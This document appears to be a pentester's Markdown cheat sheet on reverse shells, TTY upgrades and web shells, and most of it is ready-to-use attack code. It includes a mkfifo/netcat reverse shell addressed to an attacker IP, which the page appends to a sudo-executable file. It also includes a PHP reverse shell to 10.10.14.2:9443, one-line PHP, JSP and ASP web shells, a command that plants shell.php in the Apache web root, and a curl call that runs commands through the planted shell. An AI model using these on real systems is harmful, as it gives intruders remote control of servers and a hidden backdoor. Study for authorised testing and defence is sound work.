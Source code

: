 ```yaml
---
id: Reverse Shell
aliases:
  - Revshell
tags:
  - Pentest/Reverse-Shell
---
```


# Reverse Shell

- [RevShells.com](https://www.revshells.com/)
- [InternalAllTheThings - Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/)

<!-- Bash {{{-->
## Bash

```sh
script /dev/null -c bash
SHELL=/bin/bash script -q /dev/null
```

Append shell to sudo-executable file

```sh
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_ip> <attacker_port> >/tmp/f' | tee -a <file.sh>
```

### Upgrade to Interactive Shell

```sh
export TERM=xterm
```

^Z (CTRL+Z)

```sh
stty raw -echo; fg
```
<!-- }}} -->

<!-- Python {{{-->
## Python

Check if Python is installed on the server

```sh
which python
```

```sh
which python3
```

### Interactive shell

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

> [!info]-
>
> - `c`: Run the following Python code in the command line
> - `import pty`: Import the pseudo-terminal module
> - `pty.spawn("/bin/bash")`: Spawn a new process and connect it to the
>   pseudo-terminal
<!-- }}} -->

<!-- PHP {{{-->
## PHP

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```
<!-- }}}-->

<!-- Upgrading TTY {{{-->
## Upgrading TTY

- [Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

Map the TTY with the remote TTY

1. Hit `Ctrl + Z` to background the shell ang get back to the local terminal

```sh
^Z
```

2. Bring back the `netcat` shell to the foreground

```sh
stty raw -echo; fg
```

3. Hit `Enter` (or input `reset` and hit `Enter`)

4. Set shell variables to make the terminal full screen


```sh
# Show the `TERM` variable
export TERM=xterm
xterm-256color

# Show the values for `rows` and `columns`
stty size
67 318
```

Set the variables in the `netcat` shell

```sh
# Set `TERM`
export TERM=xterm-256color

# Set rows and columns
stty rows 67 columns 318
```
<!-- }}} -->

<!-- Web Shell {{{-->

# Web Shell

A Web Shell accepts the command through HTTP request parameters
(e.g. `GET`, `POST`) and prints the output to the webpage.

## Examples

PHP

```php
<?php system($_REQUEST["cmd"]); ?>
```

JSP

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

ASP

```asp
<% eval request("cmd") %>
```

## Uploading a Web Shell

The web shell should be placed into the remote host's web root (through a
vulnerability or upload feature) and executed through the web browser.

| Web Server | Default Webroot          |
| ---------- | ------------------------ |
| Apache     | `/var/www/html/`         |
| Nginx      | `/usr/local/nginx/html/` |
| IIS        | `c:\inetpub\wwwroot\`    |
| XAMPP      | `C:\xampp\htdocs\`       |

The following `bash` command writes the web shell to a Linux machine running
Apache.

```sh
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

## Accessing Web Shell

The web shell may be accessed via a web browser or by using `cURL`.

```sh
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

A web shell would bypass any firewall restriction as it will not open a new
connection on a port bup use `80`or `443`.
<!-- }}} -->
